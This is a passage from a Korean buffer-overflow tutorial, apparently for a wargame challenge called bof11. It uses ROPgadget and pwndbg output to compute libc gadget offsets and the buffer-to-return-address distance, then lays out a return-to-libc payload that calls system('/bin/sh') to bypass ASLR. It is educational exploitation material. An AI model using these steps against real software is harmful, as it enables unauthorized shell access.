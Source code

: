 16. 그리고 다음과 같이 `ROPgadget` 으로 오프셋을 찾을 수 있다. 

    ```console
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
    0x0000000000021102 : pop rdi ; ret
    ```
    
17. 결론적으로 `pop rdi ; ret` 의 주소값을 구할 수 있다. 

    `("pop rdi ; ret" 가젯의 주소값) = (libc 의 베이스 주소값) + ("pop rdi ; ret" 의 오프셋) = 0x7f836fd8d000 + 0x0000000000021102 = 0x7f836fdae102`

18. 그러면 최종적으로 `Z` 를 계산해보자. 

    ```console
    pwndbg> p printf
    $14 = {<text variable, no debug info>} 0x7f836fde2800 <__printf>
    pwndbg> p/d 0x7f836fdae102 - 0x7f836fde2800
    $15 = -214782
    ```

19. 이렇게 `Z` 가 -214782 라는 것을 알 수 있다. 

## buf 에서 return address 까지의 거리

20. vuln 함수가 시작되었을 때 rsp 의 주소값을 확인하자. 이 주소값에 vuln 함수의 리턴 어드레스가 저장되어 있다. 

    ```console
    pwndbg> i r rsp
    rsp            0x7ffe25be74c8   0x7ffe25be74c8
    ```

21. 그리고 gets 함수가 받는 인자를 확인해서 buf 의 주소값을 확인하고 리턴 주소값까지의 거리를 계산하자. 

    ```console
    pwndbg> p/d 0x7ffe25be74c8 - 0x7ffe25be74b0
    $18 = 24
    ```

## ASLR 우회 페이로드 

22. bof11 은 printf 함수의 주소값이 유출된다는 설정을 가지고 있기 때문에 유출된 printf 함수의 주소값을 `A` 라고 하자. 그러면 쉘을 실행시키기 위한 페이로드는 다음과 같이 정해진다. 

| 쓰레기 값 | "pop rdi ; ret" 주소값 | "/bin/sh" 주소값 | system 주소값 |
|:------:|:----:|:-----:|:-----:|
| 24 바이트 | 8 바이트   | 8 바이트 | 8 바이트 |

## POC 코드

> 참고/출처 : https://www.lazenca.net/display/TEC/02.RTL%28Return+to+Libc%29+-+x64

printf 주소값을 받은 후 system 함수와 /bin/sh 문자열의 주소값, "pop rdi ; ret" 과의 거리를 계산해서 주소값을 도출해야 하기 때문에 일반적인 쉘 상에서는 익스플로잇 하기가 어렵고, `pwntool` 이라는 파이썬 패키지를 사용해보자. **pwn** 이라는 용어는 소유하다는 뜻의 **own** 에서 파생된 은어로써 권한이 없는 것을 소유해내다 라는 의미이다. 

